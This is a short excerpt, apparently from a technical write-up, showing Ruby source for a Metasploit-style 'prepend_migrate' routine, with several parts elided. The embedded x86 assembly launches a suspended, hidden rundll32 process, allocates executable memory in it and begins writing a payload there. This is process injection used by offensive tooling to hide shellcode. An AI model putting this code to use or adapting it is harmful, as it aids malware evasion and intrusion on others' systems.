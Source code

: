 The code determines whether the corresponding Payload is x86 or x64:

```ruby
  def prepend_migrate(buf)
    payloadsize = "0x%04x" % buf.length
    procname = datastore['PrependMigrateProc'] || 'rundll32'

    # Prepare instructions to get address of block_api into ebp
    block_api_start = <<-EOS
      call start
    EOS
    block_api_asm = <<-EOS
...
...
...
    # Prepare default exit block (sleep for a long long time)
    exitblock = <<-EOS
      ;sleep
      push -1
      push 0xE035F044           ; hash( "kernel32.dll", "Sleep" )
      call ebp                  ; Sleep(... );
    EOS
...
...
...
      lea edi,[eax+0x60]        ; Offset of empty space for lpProcessInformation
      push edi                  ; lpProcessInformation : write processinfo here
      push eax                  ; lpStartupInfo : current info (read)
      xor ebx,ebx
      push ebx                  ; lpCurrentDirectory
      push ebx                  ; lpEnvironment
      push 0x08000004           ; dwCreationFlags CREATE_NO_WINDOW | CREATE_SUSPENDED
      push ebx                  ; bInHeritHandles
      push ebx                  ; lpThreadAttributes
      push ebx                  ; lpProcessAttributes
      push esi                  ; lpCommandLine
      push ebx                  ; lpApplicationName

      push 0x863FCC79           ; hash( "kernel32.dll", "CreateProcessA" )
      call ebp                  ; CreateProcessA( &si );

      ; if we didn't get a new process, use this one
      test eax,eax
      jz payload                ; If process creation failed, jump to shellcode

    goodProcess:
      ; allocate memory in the process (VirtualAllocEx())
      ; get handle
      push 0x40                 ; RWX
      add bh, 0x10              ; ebx = 0x1000
      push ebx                  ; MEM_COMMIT
    EOS
    migrate_asm << <<-EOS
      push ebx                  ; size
      xor ebx,ebx
      push ebx                  ; address
      push [edi]                ; handle
      push 0x3F9287AE           ; hash( "kernel32.dll", "VirtualAllocEx" )
      call ebp                  ; VirtualAllocEx(...);

      ; eax now contains the destination
      ; WriteProcessMemory()
      push esp                  ; lpNumberOfBytesWritten
      push #{payloadsize}       ; nSize
```